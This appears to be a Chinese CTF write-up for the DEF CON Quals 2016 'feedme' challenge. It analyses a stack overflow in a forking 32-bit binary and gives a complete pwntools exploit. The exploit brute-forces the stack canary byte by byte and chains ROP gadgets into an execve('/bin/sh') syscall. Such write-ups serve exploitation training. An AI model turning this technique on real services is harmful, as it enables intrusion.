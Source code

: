```yaml
---
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 


title: nightmare 2.11.defcon quals2016 feedme-wp
date: 2023-08-15 20:39:38
tags:
- CTF
- pwn
- dcquals2016
- nightmare
- stack 
- canary  
- ret2syscall
categories:
- pwn-wp
---
```


[相关资源](https://github.com/guyinatuxedo/nightmare/tree/master/modules/07-bof_static/dcquals16_feedme)  

## 文件分析

```python
$ checksec feedme
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

```sh
$ ./feedme
FEED ME!
!0000000000000000000000000000000000000000000000000000000000000000000
ATE 30303030303030303030303030303030...
*** stack smashing detected ***: ./feedme terminated
Child exit.
FEED ME!
...
```

## 代码分析

首先`SHIFT+F5`利用签名文件恢复符号表，具体教程见[符号表恢复](https://antel0p3.github.io/2023/08/14/symbol-restore/) 
  ![img](https://github.com/Antel0p3/Antel0p3.github.io/blob/main/2023/08/15/dcquals16-feedme/0x1.png?raw=true)

1. 可以看到循环fork创建子线程，子线程执行`sub_8049036` 函数

   ![img](https://github.com/Antel0p3/Antel0p3.github.io/blob/main/2023/08/15/dcquals16-feedme/0x2.png?raw=true)

2. `sub_8049036` 函数中`I`首先读取一个byte

3. `II`读取这个byte值个数个byte到v3中，明显此处存在栈溢出

4. `III`处明显存在canary栈溢出检查

## 攻击方法

该文件是静态链接的，但是没有找到库函数`system`，并且开启了栈不可执行 
`ALT+T` 也没有找到`syscall` ，但是存在有`int 80h` 可以触发系统调用  `sys_execve`

参数：

```assembly
eax -> 0xb	# sys_execve调用号
ebx -> '/bin/sh'指针
ecx -> 0
edx -> 0
```

**fork出的子线程canary是不变的**，由此我们可以对canary进行爆破，然后溢出构造pop链

爆破方法：从低（最低位一定是\x00，不用爆破）到高一个一个字节遍历覆盖，如果没有发现输出`stack smashing`，则说明当前字节正确，固定当前已获取的字节，接着下个字节爆破

## exp

```python
from pwn import *
import sys

pty = process.PTY
context(os='linux', arch='i386', log_level='debug')

mode = ''
if len(sys.argv) > 1:
    mode = sys.argv[1]

proc = process("./feedme")

def s(x): proc.send(x)
def sl(x): return proc.sendline(x)
def sd(x): return proc.send(x)
def sla(x, y): return proc.sendlineafter(x, y)
def sa(x, y): return proc.sendafter(x, y)
def ru(x): return proc.recvuntil(x)
def rc(): return proc.recv()
def rl(): return proc.recvline()
def li(con): return log.info(con)
def ls(con): return log.success(con)
def pi(): return proc.interactive()
def pcls(): return proc.close()
def ga(): return u64(ru(b'\x7f')[-6:].ljust(8, b'\x00'))

gscript = '''
    b main
    b * 0x08049036
    b * 0x080490C9
    set follow-fork-mode child
    
'''
if mode == '-d':
    gdb.attach(proc, gdbscript=gscript)

canary = b'\x00'	# 最低位

for i in range(1, 4):	# 剩下三位爆破
    for j in range(0,0x100):	# 0x00-0xff
        sa(b'ME!', p8(32+i+1)+b'h'*32+ canary + p8(j))	# size + padding + canary
        res = ru(b'exit.')
        if b'smashing' not in res:	# 正确
            canary = canary + p8(j)	# 更新canary
            break					# 去下一个字节

eax_ret = 0x080bb496
ebx_ret = 0x080481c9
edx_ret = 0x0806f34a
ecx_ebx_ret = 0x0806f371
mov_eax2pedx = 0x0809a7ed
int_80 = 0x08049761
dest = 0x080EBF40

payload = b'h'*32 + canary + p32(0)* 3	# padding + canary + padding2ret
payload += p32(edx_ret)+ p32(dest)	# edx = str_ptr
payload += p32(eax_ret) + b'/bin' + p32(mov_eax2pedx) # eax = b'/bin'; mov dword ptr [edx], eax
payload += p32(edx_ret)+ p32(dest+4)	# edx = str_ptr+4
payload += p32(eax_ret) + b'/sh\x00' + p32(mov_eax2pedx) # eax = b'/sh\x00'; mov dword ptr [edx], eax
payload += p32(eax_ret) + p32(0xb)	# eax = 0xb
payload += p32(edx_ret) + p32(0)	# edx = 0

payload += p32(ecx_ebx_ret) + p32(0) + p32(dest)	# ecx = 0; ebx = str_ptr
payload += p32(int_80)

sa(b'ME!', p8(len(payload))+payload)	# size + payload


pi()
pause()
```


---